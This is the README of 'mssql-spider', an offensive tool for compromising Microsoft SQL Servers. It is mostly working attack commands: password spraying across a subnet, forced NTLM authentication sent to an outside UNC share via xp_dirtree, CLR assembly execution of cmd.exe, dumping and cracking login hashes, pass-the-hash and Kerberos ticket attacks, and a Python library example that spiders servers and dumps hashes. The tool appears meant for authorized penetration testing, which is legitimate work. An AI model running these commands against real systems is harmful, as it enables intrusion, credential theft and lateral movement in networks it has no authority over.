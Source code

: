 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that discovers and exploits as many Microsoft SQL Servers as it can reach by crawling linked instances and abusing user impersonation.
For example, it can solve the [OSEP](https://www.offensive-security.com/pen300-osep/) Lab Challenge 2 automatically.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/xforcered/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

If you want the latest features replace `@main` with `@dev`.

# Usage

Starting from just network access without credentials (classic network pentest), spray known default passwords, abuse user impersonation or linked instances to reach additional servers and execute `whoami` on all servers where you gained *sysadmin* access:

~~~ bash
mapcidr -cidr 192.168.178.0/24 | mssql-ping | tee ./instances.json | mssql-spray passwords -c ./assets/default-credentials.txt | tee ./logins.json | mssql-spider -x 'whoami /all'
~~~

Starting with domain credentials, fetch SPNs of MSSQL servers from BloodHounds database and coerce NTLM authentication from all reachable servers with `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-discover bloodhound | mssql-ping | tee ./instances.json | mssql-spider -d corp.local -u jdoe -p 'passw0rd' --sysinfo -c '\\192.168.178.128\harvest'
~~~

All commands switch to JSON input or output if they are used as part of a pipeline.
You can override this behavior with `--no-json-input` / `--no-json-output`.

## Advanced Features

Load and execute a .NET assembly as *sysadmin*.
The first argument is the path to the DLL.
The second argument is the name of the function to call.
All following arguments are passed to the function as `SqlString`.
The C# code for an exemplary DLL can be found at [SharpProcedure.cs](./extras/SharpProcedure.cs).

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local --exec-clr ./SharpProcedure.dll Run cmd.exe '/c echo %USERNAME%'
~~~

Dump secrets and crack password hashes of database logins with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local --dump-hashes ./hashes.txt --dump-jobs --dump-autologon
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~

Post-process the JSON output with `jq`.

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local -x 'whoami /priv' | jq -r 'select(.pwned==true and .result!=null)'
~~~

## Authentication

As local database user.

~~~ bash
mssql-spider -u jdoe -p 'passw0rd' -t db01.corp.local
~~~

As local windows user.

~~~ bash
mssql-spider -w -u administrator -p 'passw0rd' -t db01.corp.local
~~~

As domain user via NTLM and a password.

~~~ bash
mssql-spider -d corp.local -u jdoe -p 'passw0rd' -t db01.corp.local
~~~

As domain user via NTLM *Pass the Hash*.

~~~ bash
mssql-spider -d corp.local -u jdoe -H b9f917853e3dbf6e6831ecce60725930 -t db01.corp.local
~~~

As domain user via Kerberos *Overpass the Key*.

~~~ bash
mssql-spider -d corp.local -u jdoe -H b9f917853e3dbf6e6831ecce60725930 -k -t db01.corp.local
~~~

As domain user via Kerberos *Pass the Key*.

~~~ bash
mssql-spider -d corp.local -u jdoe -a c4c283276339e2d6b390eb5a11d419c9 -k -t db01.corp.local
~~~

As domain user via Kerberos *Pass the Ticket*.

~~~ bash
export KRB5CCNAME=./jdoe.ccache
mssql-spider -k -t db01.corp.local
~~~

# Library Usage

~~~ python
from mssqlmap.client import Client
from mssqlmap.connection import Connection
from mssqlmap.modules.dump import HashDumper
from mssqlmap.modules.exec import CmdShellExecutor
from mssqlmap.modules.impersonated_user import ImpersonationSpider
from mssqlmap.modules.linked_instance import LinkSpider

with Client(Connection(host='db01.corp.local', username='sa', password='passw0rd')) as client:
    for child, module, status in client.spider([ImpersonationSpider(), LinkSpider()]):
        print(child, module, status)
        if status in ('failed', 'denied', 'repeated'):
            continue
        for module, result in child.invoke([CmdShellExecutor('whoami /all'), HashDumper('./hashes.txt')]):
            print(child, module, result)
~~~

# Prevention and Detection

See [github.com/skahwah/sqlrecon/wiki](https://github.com/xforcered/SQLRecon/wiki/8.-Prevention,-Detection-and-Mitigation-Guidance).
